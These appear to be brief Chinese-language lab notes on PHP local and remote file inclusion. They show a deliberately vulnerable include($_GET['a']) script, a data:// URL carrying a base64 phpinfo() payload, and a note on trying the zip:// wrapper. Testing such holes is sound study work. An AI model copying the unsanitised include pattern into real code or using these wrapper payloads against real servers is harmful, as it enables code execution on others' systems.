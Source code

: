 测试`data://`  

`data://text/plain;base64,base64编码的payload`

index.php
```php
<?php $a = $_GET['a']; include($a);?>
```

访问`http://127.0.0.1:8099/?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyBleGl0KCk7Pz4K`


![](assets/markdown-img-paste-20180413161516793.png)

这里的base64字符串最好不要包含`+`，会被当成空格


测试`zip://`  

有的时候可能只允许上传`.zip`的文件  

PS：貌似我的环境没有开启？？？

![](assets/markdown-img-paste-20180413162635608.png)
